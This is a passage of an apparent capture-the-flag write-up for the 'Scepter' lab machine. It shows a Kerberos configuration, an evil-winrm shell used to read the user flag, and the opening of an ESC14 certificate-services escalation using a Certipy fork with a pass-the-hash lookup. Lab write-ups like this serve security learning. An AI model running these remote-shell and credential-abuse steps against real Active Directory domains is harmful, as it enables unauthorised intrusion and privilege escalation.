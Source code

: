   <pre style="
    background-color: #161b22;
    padding: 12px;
    border-radius: 6px;
    overflow-x: auto;
    margin: 0;
  "><code style="color: #c9d1d9;"># /etc/krb5.conf

[libdefaults]
        default_realm = SCEPTER.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        SCEPTER.HTB = {
                kdc = scepter.htb
                admin_server = scepter.htb
                default_admin = scepter.htb
        }
[domain_realm]
        .scepter.htb = SCEPTER.HTB</code></pre>
</div>

```bash
evil-winrm -i dc01.scepter.htb -r SCEPTER.HTB -u h.brown

Evil-WinRM shell v3.6

Warning: User is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\h.brown\Documents> cat ../Desktop/user.txt
```
## Root
### ESC14-B to win

At this point, even if we did a lot of enumeration on the machine, we are not going to find something except the thing that **p.adams** can DCSYNC on the machine and **h.brown** is in **CMS** group (Certificate Management Services) and in HelpDesk Admins

Knowing that ESC9, ESC10 and ESC14 are related to roughly the same vulnerability, i will enumerate ADCS again but with a github PR for ESC14

[PR 255](https://github.com/ly4k/Certipy/pull/255)

```bash
➜ git clone https://github.com/Deloitte-OffSecResearch/Certipy.git

➜ python3 -m venv .venv

➜ source .venv/bin/activate

➜ cd build/lib/certipy/

➜ python3 entry.py find -u 'd.baker@scepter.htb' -hashes :'18...ce' -dc-ip '10.129.28.117' -esc14 -vulnerable -stdout -debug
```